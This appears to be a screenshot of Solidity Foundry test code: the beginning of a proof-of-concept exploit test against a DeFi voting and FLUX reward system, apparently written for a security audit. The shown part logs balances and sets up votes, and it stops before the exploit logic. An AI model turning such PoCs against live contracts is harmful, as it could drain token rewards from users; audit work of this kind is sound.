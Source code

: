 ``` 

        vm.stopPrank();

        vm.startPrank(holder);

        voter.reset(id1);
        voter.reset(id2);
        voter.reset(id3);

        uint256 unclaimedBalance2 = flux.getUnclaimedFlux(id1);

        console.log("The FLUX Balance of any id of the three after resetting is : ", unclaimedBalance2);

        console.log("The FLUX Balance of total user IDs after resetting in (normal situation) is : ", unclaimedBalance2 * 3);


        console.log("so that what should happen in normal .. the next we will preview the exploit that could totally take on the flux token system");

  

}

  function test_Exploit() public { 

      vm.startPrank(holder);


        uint256 id1 = _lockVeALCX(TOKEN_100K);
        uint256 id2 = _lockVeALCX(TOKEN_100K);
        uint256 id3 = _lockVeALCX(TOKEN_100K); 



        vm.stopPrank();


        _setupgauge();




        vm.startPrank(holder);

        
        address[] memory pools = new address[](1);
        address[] memory pools2 = new address[](1);
        uint256[] memory weights = new uint256[](1);
        pools[0] = alUsdPoolAddress;
        pools2[0] = alEthPoolAddress;
        weights[0] = 1;

        voter.vote(id1, pools, weights, 0);
        voter.vote(id2, pools2, weights, 0);
        voter.vote(id3, pools, weights, 0);



        uint256 unclaimedBalance11 = flux.getUnclaimedFlux(id1);

        console.log("The FLUX Balance of any id now is : ", unclaimedBalance11);
```